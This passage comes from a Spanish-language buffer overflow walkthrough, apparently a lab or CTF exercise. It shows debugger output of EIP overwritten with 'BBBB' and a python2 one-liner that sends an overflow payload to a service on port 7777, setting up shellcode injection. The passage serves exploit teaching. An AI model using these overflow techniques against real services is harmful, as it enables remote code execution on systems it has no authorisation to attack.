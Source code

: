 ```
 EBX  0x41414141 ('AAAA')
 ECX  0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0xa212
 EBP  0x41414141 ('AAAA')
 ESP  0xffffd2e0 —▸ 0xffff000a ◂— 0
 EIP  0x42424242 ('BBBB')
─────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────
Invalid address 0x42424242










──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffd2e0 —▸ 0xffff000a ◂— 0
01:0004│     0xffffd2e4 —▸ 0xffffd2f4 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\n'
02:0008│     0xffffd2e8 ◂— 0x200
03:000c│     0xffffd2ec ◂— 0
04:0010│     0xffffd2f0 ◂— 0
05:0014│     0xffffd2f4 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\n'
... ↓        2 skipped
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0 0x42424242 None
   1 0xffff000a None
──────────────────────────────────────────────────────────────────────────────
```

Vemos que estamos llenando de forma correcta el `EIP`, por lo que ahora vamos a llenar lo que haya despues del `EIP` para determinar alguna direccion de memoria en la que poder inyectarle un `shell_code`.

### Inyección de código en direccion de memoria

```shell
python2 -c 'print b"A"*76 + b"B"*4 + b"C"*300' | ./sender <IP> 7777
```

Info:

```
Conectado al servidor en 172.17.0.3:7777
Introduce los datos para enviar: Datos enviados: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```

